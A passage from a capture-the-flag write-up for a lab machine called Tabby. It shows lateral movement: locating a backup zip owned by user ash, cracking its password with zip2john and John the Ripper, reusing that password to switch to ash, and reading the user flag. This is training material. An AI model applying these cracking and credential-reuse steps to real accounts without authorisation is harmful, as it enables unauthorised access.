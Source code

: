 ## Lateral move

### Files owned by `ash`

Checking the files owned by `ash` reveals a backup file. Let's download it.

~~~
tomcat@tabby:/var/lib/tomcat9$ find / -type f -user ash 2>/dev/null
find / -type f -user ash 2>/dev/null
/var/www/html/files/16162020_backup.zip
~~~

### Crack zip archive

The backup is password protected, let's use John to crack the password.

~~~
kali@kali:/data/Tabby/files$ /data/src/john/run/zip2john 16162020_backup.zip > zip.hash
kali@kali:/data/Tabby/files$ /data/src/john/run/john zip.hash --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
admin@it         (16162020_backup.zip)
1g 0:00:00:01 DONE (2020-09-17 14:43) 0.7462g/s 7730Kp/s 7730Kc/s 7730KC/s adnc153..adilizinha
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
~~~

Having the password (`admin@it`), we may assume that `ash` has used the same password for the backup as his session's password.

## Read the user flag

Let's switch to `ash` and get the user flag:

~~~
tomcat@tabby:/var/www/html$ su ash
su ash
Password: admin@it

ash@tabby:/var/www/html$ cd
cd
ash@tabby:~$ ls -la
ls -la
total 28
drwxr-x--- 3 ash  ash  4096 Jun 16 13:59 .
drwxr-xr-x 3 root root 4096 Jun 16 13:32 ..
lrwxrwxrwx 1 root root    9 May 21 20:32 .bash_history -> /dev/null
-rw-r----- 1 ash  ash   220 Feb 25  2020 .bash_logout
-rw-r----- 1 ash  ash  3771 Feb 25  2020 .bashrc
drwx------ 2 ash  ash  4096 May 19 11:48 .cache
-rw-r----- 1 ash  ash   807 Feb 25  2020 .profile
-rw-r----- 1 ash  ash     0 May 19 11:48 .sudo_as_admin_successful
-rw-r----- 1 ash  ash    33 Sep 17 12:49 user.txt
ash@tabby:~$ cat user.txt
cat user.txt
f7328d5e25be4a817d7d3482b1e551aa
~~~
